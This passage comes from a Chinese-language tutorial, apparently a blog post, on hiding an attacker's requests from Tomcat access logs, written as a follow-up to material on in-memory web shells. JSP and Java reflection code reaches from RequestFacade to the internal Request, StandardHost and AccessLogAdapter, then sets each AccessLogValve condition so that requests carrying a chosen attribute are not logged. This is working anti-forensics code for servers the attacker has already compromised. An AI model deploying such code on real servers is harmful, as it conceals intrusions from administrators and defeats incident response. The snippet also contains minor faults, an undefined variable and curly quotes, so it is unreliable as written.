于是，我们可以通过改动 this.condition 和 request.getAttribute(this.conditiion), 或者 this.conditionIf 和 request.getAttribute(this.conditiionIf)，令以上任一条件不成立，则第一个 IF 逻辑则无法进入，最终使得 Tomcat 不记录我们的访问记录。

三、实现行踪隐匿
--------

经过前面分析，我们可以知道，日志记录，是在请求完成响应之后实施的。那么我们可以从 Request 中的 MappingData 获取 StandardHost，通过 Standardhost 获取 accessLog。

阅读过先前讲解 Servlet 内存马的朋友可能会好奇为何 StandardService 有 MappingData，为何 Request 也有，MappingData 作为记录映射关系的实例，也会最终传递给 Request 对象供其调用。

[![](https://p2.ssl.qhimg.com/t01e144eb7b8bee599e.png)](https://p2.ssl.qhimg.com/t01e144eb7b8bee599e.png)

因而我们无论是通过 Filter、Servlet 还是 JSP，都拥有了 ServletRequest 对象。

但要注意的是，Tomcat 采用的设计模式是门面模式，为了提高系统的独立性，将 Request 对象转换成了 RequestFacade 对象，转换之后，Request 则不可见，用户操作的对象只能是 RequestFacade。以此，通过门面实现了系统内部和外部操作对象的分离。

但是，因为门面实际上是为复杂的子系统为一个类提供一个简单的接口，对于 RequestFacade 对象而言，实际上完成操作的，仍然是 Request 对象，因而 Request 对象，自然而然会作为成员变量保存在 RequestFacade 对象之中。既然保存在其中，我们就可以通过 Java 的反射机制，越过访问控制权限，动态获取运行中实例的属性。

按照惯例，先把要导入的包说明一下：

```
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.mapper.MappingData" %>
<%@ page import="org.apache.catalina.core.StandardHost" %>
<%@ page import="org.apache.catalina.AccessLog" %>
<%@ page import="org.apache.catalina.valves.AbstractAccessLogValve" %>
<%@ page import="org.apache.catalina.core.AccessLogAdapter" %>
```

获取 Request 对象。

```
Field requestF = request.getClass().getDeclaredField(“request”);
// requestFacade的request由protected修饰
requestF.setAccessible(true);
Request req = (Request) requestF.get(request);
```

获取 MappingData 和 StandardHost：

```
MappingData mappingData = req.getMappingData();
StandardHost standardHost = (StandardHost) mappingData.host;
```

获取 accesslog 并赋值 AccessLogValve.condition 和 Request.attributes :

```
AccessLogAdapter accessLog = (AccessLogAdapter) standardHost.getAccessLog();
    Field logsF = accessLog.getClass().getDeclaredField("logs");
    logsF.setAccessible(true);
    AccessLog[] logs = (AccessLog[]) logsF.get(accessLogAdapter);
    for( AccessLog log:logs ){
        ((AbstractAccessLogValve)log).setCondition("WhatEverYouWant");//任意填入
    }
request.setAttribute("WhatEverYouWant", "WhatEverYouWant");
```
